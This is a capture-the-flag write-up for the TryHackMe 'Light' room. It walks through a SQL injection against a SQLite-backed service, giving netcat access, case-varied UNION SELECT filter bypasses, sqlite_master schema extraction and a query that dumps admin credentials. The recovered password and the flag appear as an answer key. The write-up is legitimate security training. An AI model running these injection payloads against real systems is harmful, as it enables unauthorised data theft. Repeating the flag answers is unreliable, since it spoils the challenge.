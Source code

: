 ## Light - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/lightroom)

Welcome!

<i>I am working on a database application called Light! Would you like to try it out?</i>
<i>If so, the application is running on port 1337. You can connect to it using nc MACHINE_IP 1337</i>
<i>You can use the username smokey in order to get started.</i>

<i>**Note: Please allow the service 2 - 3 minutes to fully start before connecting to it**<i>.

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: SQL Injection <br>

**Tools Used**: Nmap<br>

**Author**: <br>
mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

IP: 10.10.237.33<br>
Username: `smokey`<br>
Password: `vYQ5ngPpw8AdUmL` ; you get this password when you get netcat connection<br>

- Nmap Scan

  ```
  nmap -A -p- 10.10.237.33
  ```

- Found:

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)<br>
1337/tcp open  waste?

## ⚙️ Exploitation 

  ```
  nc 10.10.237.33 1337
  ```

After connecting, type smokey to get his password `vYQ5ngPpw8AdUmL`

- Now we start with the payloads:
  First we check if SQLI is actually possible.

  ```
  smokey'
  smokey' UNION SELECT 1 -- -
  smokey' UNION SELECT 1 #
  ```

- I got various different responses with different queries and I concluded that filtering is present. Now, it took me a bit to find the specific filter bypass since I wanted to find which DBMS is used.<br>
  This is what I used:

  ```
  smokey' UnIon SeLect @@version '
  smokey' UnIon SeLect version() '
  smokey' UnIon SeLect sqlite_version() '
  ```

  Only got positive response with `smokey' UnIon SeLect sqlite_version() '` so its a SQLite database!

  Now extracting the values from DBMS:

- This one extracts table names, it gave me `admintable`:

  ```
  smokey' UnIon SeLect tbl_name FROM sqlite_master WHERE type='table
  ```

- This one extracts schema of table in SQLite:

  ```
  smokey' UnIon SeLect sql FROM sqlite_master WHERE name = 'admintable
  ```

- Now for final push, lets get both usernames and passwords from admintable:

  ```
  smokey' UnIon SeLect group_concat(username || ":" || password) FROM admintable '
  ```

**Result of last query**: `Password:TryHackMeAdmin:mamZtAuMlrsEy5bp6q17,flag:THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

- **Theres various different resources/documentation to help you out with this challenge, I prefer PayloadsAllTheThings**.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## 🏁 Flags

- **What is the admin username?** : `TryHackMeAdmin`
- **What is the password to the username mentioned in question 1?** : `mamZtAuMlrsEy5bp6q17`
- **What is the flag?** : `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?<br>
  `It took me a bit to realise that netcat connection gives you immediate access to the database...`
  
- What did I learn?<br>
  `Just kept sharpening SQLI skills`
  
- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!
  
- Enjoy, Have Fun and Happy Hacking! 🤟

---
